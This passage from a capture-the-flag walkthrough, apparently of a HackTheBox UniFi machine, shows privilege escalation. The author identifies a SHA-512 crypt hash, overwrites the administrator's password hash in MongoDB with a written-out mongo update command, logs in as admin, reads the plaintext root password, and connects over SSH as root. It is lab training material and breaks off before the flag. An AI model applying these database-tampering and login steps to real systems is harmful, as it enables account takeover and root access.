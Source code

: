 And the output looks like:

```
--File 'hash.txt'--
Analyzing '$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.'
[+] SHA-512 Crypt [Hashcat Mode: 1800]
--End of file 'hash.txt'--  
```

Another option is simply running the ```hash-identifier``` command.

*Let's proceed to replacing the existing hash with the one we created.*

```
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```

For example:

```
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$F.Uy.deXGeSYMQRw$aDsN8oDYaT5eTD0C9Q8zQGuTsGM06hq6TdOd1I1MYKAwFN5QmvygAj8n7dIDQWvknEaM.iXl2wLrKW8RKEdST/"}})'
```

Here is the output from my Kali machine:

```
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$F.Uy.deXGeSYMQRw$aDsN8oDYaT5eTD0C9Q8zQGuTsGM06hq6TdOd1I1MYKAwFN5QmvygAj8n7dIDQWvknEaM.iXl2wLrKW8RKEdST/"}})'
<YKAwFN5QmvygAj8n7dIDQWvknEaM.iXl2wLrKW8RKEdST/"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/usr/lib/unifi$ 
```

*Let's now visit the website and log in as administrator . It is very important to note that the username is case sensitive. The authentication process was successful and we now have administrative access to the UniFi application.*

*UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal.*

*Navigate to ```settings -> site``` and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.*

*The page shows the root password in plaintext. Let's attempt to authenticate to the system as root over SSH.*

```
ssh root@10.129.96.149
```

*The connection is successful and the root flag can be found using my trusted command:*
